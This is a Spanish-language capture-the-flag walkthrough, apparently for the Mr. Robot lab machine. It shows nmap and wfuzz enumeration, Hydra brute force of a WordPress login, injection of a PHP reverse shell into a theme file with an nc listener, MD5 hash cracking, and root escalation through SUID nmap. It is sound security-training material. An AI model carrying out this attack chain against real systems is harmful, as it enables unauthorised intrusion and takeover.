 # Reconocimiento y Enumeracion:
-	Revisamos que la maquina esta activa
````bash
ping -c 1 <IP>
````
![ttl](images/ttl.png)

Con esta salida vemos la estamos frente a una maquina linux, vamos a enumerar todo el rango de puertos por TCP.
````bash
nmap -p- --open -sS --min-rate=5000 -n -Pn -vvv <IP> -oG allports
````
![puertos](images/puertos.png)

-	Profundizamos mas en el escaneo para obtener mas informacion sobre las versiones y servicios que corren en el sistema

````bash
nmap -sCV -p22,80,443 --script=http-enum -n -Pn <IP> -oA info
````
![versiones](images/versiones.png)

**Nota: En ambos puertos http vemos la misma web**

Con la salida vemos que estamos frente a un gestor de contenidos Wordpress por lo que toca pensar en como infiltrarnos en este. Toca revisar los archivos
que descubrimos:

- robots.txt

````
User-agent: *
fsociety.dic 
key-1-of-3.txt
````
Encontramos la flag 1 de 3.
![flag1](images/flag1.png)

Ahora tenemos dos caminos de enumeracion.

## Camino 1

### Fuzzing
Fuzzeamos directorios en el servidor para encontrar algo de interes
````bash
wfuzz -c --hc=404 -w '/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://[IP]/FUZZ'
````
![fuzzing](images/fuzzing.png)
Revisando los directorios vemos algo interesante en /license.

![license](images/license.png)
Encontramos una cadena en base64 que al llevarla a texto plano obtenemos posibles credenciales de usuario

````
ellitot:ER28-0652
````

## Camino 2

### Fuerza bruta al login

Podemos pensar que el diccionario que encontramos anteriormente en el robots.txt contenga las contrasenas de alguno de los usuarios del sistema, sim embargo 
vemos que el diccionario es bastante extenso y tiene varias repeticiones, vamos a optimizarlo con el comando:

```bash
cat fsociety.dic | sort -u  > new_dict.dic
```

Probamos el mismo diccionario tanto para usuarios 

![hydra_user](images/user.png)

como para contrasenas
![hydra_pass](images/pass.png)

**Y ya tendriamos las credenciales para entrar**
![wordpress_login](images/login.png)

# Explotacion de Vulnerabilidades:
Luego de investigar un poco podemos darnos cuenta de que es posible inyectar una carga útil en el editor de el tema actual, de la siguiente manera.
Una vez en configuración nos desplazamos a:
![rev1](images/rev1.png)
Luego aquí, inyectamos nuestra reverse [Shell](https://github.com/pentestmonkey/php-reverse-shell):
![rev2](images/rev2.png)

Ahora esperamos a que nos llegue la shell desde netcat
```
rlwrap sudo nc -nlvp 443
```
Ahora hacemos un curl http://[IP]/asd para que de error y se active el 404.php y obtenemos una shell 
![shell](images/shell.png)

# Post-Explotacion
Una vez dentro se realiza un tratamiento de la TTY, como www-data.
```bash
script /dev/null -c /bin/bash
export TERM=xterm
export SHELL=bash
# Ctrl + Z
stty raw -echo; fg
reset xterm
stty rows [num] cols [nums] # Esto se obtiene de stty size de tu consola
```

## Enumeracion del sistema
Ademas de ver la flag parte 2 en el directorio de robot, encontramos un archivo llamado password.rawmd5. La cual es debil y podemos romper para entar como el 
usuario robot.
![flag2](images/flag2.png)
![hash](images/hash.png)

Ya podemos acceder como el usuario robot. Ahora seguir enumerando para intentar acceder como root.

- Revisamos los permisos que tenemos y enumeramos los archivos del sistema:
![suid](images/suid.png)
Lo que nos llama la atencion en este caso es que nmap tiene como propietario al usuario root y posee el permiso SUID,evisamos GTFObins de nmap y vemos que existe una vulnerabilidad

![gtfobins](images/gtfobins.png)

-	Replicamos la vulnerabilidad y listo… Estamos dentro, vemos la ultima flag

![flag3](images/flag3.png)



